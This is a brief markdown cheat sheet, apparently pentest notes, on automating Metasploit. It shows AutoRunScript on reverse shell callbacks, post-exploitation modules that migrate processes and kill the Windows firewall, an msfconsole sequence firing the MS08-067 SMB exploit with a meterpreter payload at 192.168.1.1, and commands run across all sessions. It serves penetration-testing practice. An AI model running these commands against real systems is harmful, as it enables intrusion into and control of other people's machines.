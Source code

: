 # Metasploit Callback Automation

Use AutoRunScript to run commands on a reverse shell callback

```
set AutoRunScript multi_console_command -rc /root/commands.rc
```

`/root/commands.rc` contains the commands you wish to run

Example:

```sh
run post/windows/manage/migrate
run post/windows/manage/killfw
run post/windows/gather/checkvm
```

## Metasploit Resource Script Creation

Although there are several resource scripts that are available through the framework, you may want to build a custom script of your own. For example, if you routinely run a specific exploit and payload combination against a target, you may want to create a resource script to automate these commands for you. Since this example uses purely ```msfconsole``` commands, the easiest way to create a resource script is through the ```makerc``` command available in ```msfconsole```. The ```makerc``` command records all of the commands you've run in the console and saves them in a resource script for you.

```sh
msf > workspace demo
msf > use exploit/windows/smb/ms08_067_netapi
msf (ms08_067_netapi) > set RHOST 192.168.1.1
msf (ms08_067_netapi) > set payload windows/meterpreter/bind_tcp
msf (ms08_067_netapi) > exploit
```

To save these commands to a resource script, we can use the ```makerc``` command. We'll need to provide the output location and name we want the script to use:

```sh
msf (ms08_067_netapi) > makerc ~/Desktop/myscript.rc
```

## Metasploit Session Management

List all sessions

```
msf6> sessions
```

Execute command across all sessions

```
msf6> sessions -C <command>
```

